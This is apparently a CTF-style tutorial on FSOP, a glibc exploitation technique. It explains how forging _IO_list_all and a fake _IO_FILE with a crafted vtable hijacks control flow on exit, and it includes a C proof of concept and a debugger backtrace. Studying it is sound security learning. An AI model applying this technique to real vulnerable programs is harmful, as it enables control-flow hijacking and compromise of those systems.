

# FSOP

## Introduction
FSOP stands for File Stream Oriented Programming. As we learned from the previous introduction to FILE, all _IO_FILE structures within a process are linked together using the _chain field to form a linked list, and the head of this linked list is maintained by _IO_list_all.

The core idea of FSOP is to hijack the value of _IO_list_all to forge the linked list and the _IO_FILE entries within it. However, simply forging the data is not enough — a method to trigger it is also needed. FSOP chooses to trigger by calling _IO_flush_all_lockp, which flushes the file streams of all entries in the _IO_list_all linked list. This is equivalent to calling fflush on each FILE, which in turn calls _IO_overflow in _IO_FILE_plus.vtable.

```
int
_IO_flush_all_lockp (int do_lock)
{
  ...
  fp = (_IO_FILE *) _IO_list_all;
  while (fp != NULL)
  {
       ...
       if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base))
	           && _IO_OVERFLOW (fp, EOF) == EOF)
	       {
	           result = EOF;
          }
        ...
  }
}
```



_IO_flush_all_lockp does not need to be called manually by the attacker. In certain situations, this function is called by the system:

1. When libc executes the abort routine

2. When the exit function is called

3. When the execution flow returns from the main function


## Example

Let's review the conditions for exploiting FSOP. First, the attacker needs to know the base address of libc.so, because _IO_list_all is stored as a global variable in libc.so — without leaking the libc base address, it is impossible to overwrite _IO_list_all.

Next, an arbitrary address write is needed to change the content of _IO_list_all to a pointer pointing to memory we control.

The subsequent question is what data to place in the controlled memory. Undoubtedly, a vtable pointer to our desired function is needed. But in order for the fake_FILE we constructed to work properly, some other data must also be set up.
The basis for this is the code we showed earlier:

```
if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base))
	           && _IO_OVERFLOW (fp, EOF) == EOF)
	       {
	           result = EOF;
          }
```

That is:

* fp->_mode <= 0
* fp->_IO_write_ptr > fp->_IO_write_base


Here we verify this through an example. First, we allocate a block of memory to store the forged vtable and _IO_FILE_plus.
To bypass the checks, we obtain the offsets of data fields such as _IO_write_ptr, _IO_write_base, and _mode in advance, so that we can construct the corresponding data in the forged vtable.

```
#define _IO_list_all 0x7ffff7dd2520
#define mode_offset 0xc0
#define writeptr_offset 0x28
#define writebase_offset 0x20
#define vtable_offset 0xd8

int main(void)
{
    void *ptr;
    long long *list_all_ptr;

    ptr=malloc(0x200);

    *(long long*)((long long)ptr+mode_offset)=0x0;
    *(long long*)((long long)ptr+writeptr_offset)=0x1;
    *(long long*)((long long)ptr+writebase_offset)=0x0;
    *(long long*)((long long)ptr+vtable_offset)=((long long)ptr+0x100);

    *(long long*)((long long)ptr+0x100+24)=0x41414141;

    list_all_ptr=(long long *)_IO_list_all;

    list_all_ptr[0]=ptr;

    exit(0);
}
```

We use the first 0x100 bytes of the allocated memory as _IO_FILE and the next 0x100 bytes as vtable, using the address 0x41414141 in the vtable as the forged _IO_overflow pointer.

Then, we overwrite the global variable _IO_list_all located in libc to point it to our forged _IO_FILE_plus.

By calling the exit function, the program executes _IO_flush_all_lockp, which retrieves the value of _IO_list_all through fflush and uses it as _IO_FILE_plus to call its _IO_overflow.

```
---> call _IO_overflow
[#0] 0x7ffff7a89193 → Name: _IO_flush_all_lockp(do_lock=0x0)
[#1] 0x7ffff7a8932a → Name: _IO_cleanup()
[#2] 0x7ffff7a46f9b → Name: __run_exit_handlers(status=0x0, listp=<optimized out>, run_list_atexit=0x1)
[#3] 0x7ffff7a47045 → Name: __GI_exit(status=<optimized out>)
[#4] 0x4005ce → Name: main()

```
